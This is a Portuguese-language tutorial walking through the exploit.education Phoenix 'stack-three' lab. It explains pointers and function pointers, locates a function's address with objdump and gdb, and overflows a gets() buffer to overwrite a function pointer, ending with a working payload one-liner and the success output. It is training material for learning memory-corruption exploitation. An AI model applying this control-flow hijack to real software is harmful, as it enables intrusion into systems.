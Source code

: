 # 🎯 Objetivo
Usar um pointer para retornar para uma função pre existente

# ⚡ Dica
OBS: em Ingles! -> [Wikipedia Pointer](https://en.wikipedia.org/wiki/Pointer_(computer_programming))

# 🔥 Explicação
  - O que raios são pointers
  - Function pointers
  - Exploit
  
### ↗️↘️ O que raios são pointers
> Pointers são uma estrutura que, ao invés de armazenar dados, armazena o endereço de outra estrutura.
Lembra do exemplo do poço? Que cada item tinha seu endereço na stack! Então, um pointer armazena esse endereço! :D

O pointer pode ser visto como uma placa na estrada, indicando que X cidade está em Y direção.

![Imagem da wikipedia mostrando um pointer](https://upload.wikimedia.org/wikipedia/commons/thumb/b/b4/Pointers.svg/264px-Pointers.svg.png)
Colunas: Nome da Variavel | Endereço | conteúdo

A variável "a" é um pointer que armazena a localização da variavel "b". Coloquialmente se diz que: "a" está apontando para "b" (seta vermelha).
> "a" armazena uma referencia á "b" !

> "a" pode ser des-referenciada, isto é: Seguir a direção que "a" aponta, para chegar no valor de "b" ! :D

Normalmente, o caractere "&" indica uma referência, e o caractere "*" desreferencia aquele pointer.

> Caso você tente desrefenciar um pointer que não aponta pra nada (NULL), o programa vai interromper a execução e soltar uma mensagem de erro!

### 🦀 Function Pointers
> Function pointers, ao envés de armazenar o endereço de uma variável, armazenam o endereço de uma função! :D

Sim! Funções também são armazenadas na Stack, e possuem seu endereço! Esse endereço pode ser encontrado por varios métodos:
```
objdump -d <programa> | grep <nome_da_função>


gdb <programa>
  (gdb)> info functions
```
Os dois metodos serão demonstrados em breve! :D

### 🔥 Exploit
> Buffer overflow, alterarando o valor de um function pointer, redirecionando a execução do programa.
> 
>Em lingua não nerd, por favor? :P
> 
> Escrever fora do valor do buffer. O valor que sera corrompido indica aonde a execução do programa esta indo. Se controlamos esse valor, controlamos aonde o programa vai!

#### 🛸 Analisando o programa
```
função complete_level() {   -> a função que a gente quer chamar
.......
}

função main() {
  criar buffer[64]
  criar fp -> um function pointer
  
  fp = NULL -> vai ser usado para checar se ele foi alterado,
                se continuar sendo NULL, quer dizer que esta intacto.
                
  
  gets(buffer) -> função INSEGURA para abrir um input, salva o valor no buffer
  
  if (fp) {    -> se fp foi alterado
    fp()   -> chama o endereço salvo em fp como se fosse uma função
  } else {
    print(valor nao alterado, tente novamente)
  }
  
  exit
}
```

Nós queremos chamar complete_level(), para isso, faremos fp salvar o seu endereço.

E nós já sabemos como exploitar um gets()! Então tá na hora do trabalho!

#### 🏠 Encontrando o endereço da função
```
objdump -d    -> Resumindo, printa pro terminal os objetos armazenados na Stack e seus endereços
                  ( O -d é pra ativar a disassembly: Converter de machine code para algo legivel )!
gdb
```

objdump
```
user@phoenix-amd64:~$ objdump -d /opt/phoenix/amd64/stack-three | grep complete_level
000000000040069d <complete_level>:
```

gdb
```
user@phoenix-amd64:~$ gdb /opt/phoenix/amd64/stack-three                
---- Mensagens padrão foram removidas ----
(gdb) info functions 
All defined functions:

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004d0  printf@plt
0x00000000004004e0  gets@plt
0x00000000004004f0  puts@plt
0x0000000000400500  fflush@plt
0x0000000000400510  exit@plt
0x0000000000400520  __libc_start_main@plt
0x0000000000400530  _start
0x0000000000400546  _start_c
0x0000000000400570  deregister_tm_clones
0x00000000004005a0  register_tm_clones
0x00000000004005e0  __do_global_dtors_aux
0x0000000000400670  frame_dummy
0x000000000040069d  complete_level              -> Mesmo endereço
0x00000000004006b5  main
0x0000000000400740  __do_global_ctors_aux
0x0000000000400782  _fini
```

> O endereço da função é 0x000000000040069d ! :D
Presta atenção na quantidade de null bytes que precedem o endereço. Todo pointer começa com pelo menos dois null bytes, 
e strings terminam com null byte!
Impedindo atacantes (nós), de definir um pointer novo. Nós precisamos usar um que já esta na memoria! (  Spoiler hehehehe :D  )

Como nesse desafio o pointer ja definido e nós só vamos dar um valor para ele, não precisamos nos preocupar com isso,
 dado que os zeros que ficam na stack quando ela esta vazia completarão o endereço pra gente!

#### 😐 Cansei de teoria eu quero exploit

Se você quer tentar por conta propria, agora é sua hora de brilhar!
```
Lembretes: Little Endian, o buffer tem 64 bytes, b"\x", o input vem pelo gets(), python > python3
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
eai, brilhou? ;)
```

b"A"*64     # encher o buffer

b"\x9d\x06\x40" # 0x40069d vira "9d 06 40" em LE


Espero que você tenha gostado! :D

# 💫 Solução
```
user@phoenix-amd64:~$ python -c "print(b'A'*64 + b'\x9d\x06\x40')" | /opt/phoenix/amd64/stack-three 
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```
